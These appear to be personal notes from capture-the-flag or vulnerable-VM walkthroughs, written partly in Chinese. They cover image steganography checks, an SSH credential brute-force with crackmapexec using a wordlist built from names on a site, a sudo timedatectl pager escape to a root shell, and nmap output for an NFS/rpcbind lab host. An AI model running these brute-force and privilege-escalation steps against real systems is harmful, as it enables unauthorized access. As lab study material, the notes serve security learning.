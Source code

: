 

```
exiftool *.jpg
关注comment 隐写

which xxd
16进制转二进制 xxd可以将二进制文件转换为十六进制表示，并以可读的形式显示。XXD命令可用于显示文件内容、编辑文件等用途。本文将介绍如何在Linux中使用XXD命令。
xxd -r -ps 文件1 > 文件2

strings 读可读字符 发现是图片 改后缀
22：
暴力破解 网页 页面 图片名称 二进制文件 转成图片 发现的名字 做成用户名与密码本 
crackmapexec ssh ip -u cred -p cred --continue-on-success 暴力破解

提权
sudo timedatectl list-timezones
!/bin/sh





```

![image-20230528163516790](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305281635885.png)



![image-20230528163458729](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202305281634863.png)





---



## connect the dots

Linux之间的远程挂载（nfs+rpcbind）https://zhuanlan.zhihu.com/p/448346669

这是linux服务器之间基于nfs、rpcbind服务的免密远程挂载。不是[基于smb服务远程挂载](https://zhuanlan.zhihu.com/p/443054871)。这两个服务器要先[授信](https://zhuanlan.zhihu.com/p/442723114)，在服务端安装、设置nfs与rpcbind服务，设置共性目录、启动服务，在客户端进行挂载。



```
nmap -sT -sV -sC -O -p 21,80,111,2049,7822,37129,37507,42871,58059 192.168.1.107
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-28 22:08 CST
Nmap scan report for 192.168.1.107
Host is up (0.00072s latency).

PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 2.0.8 or later
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Landing Page
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
```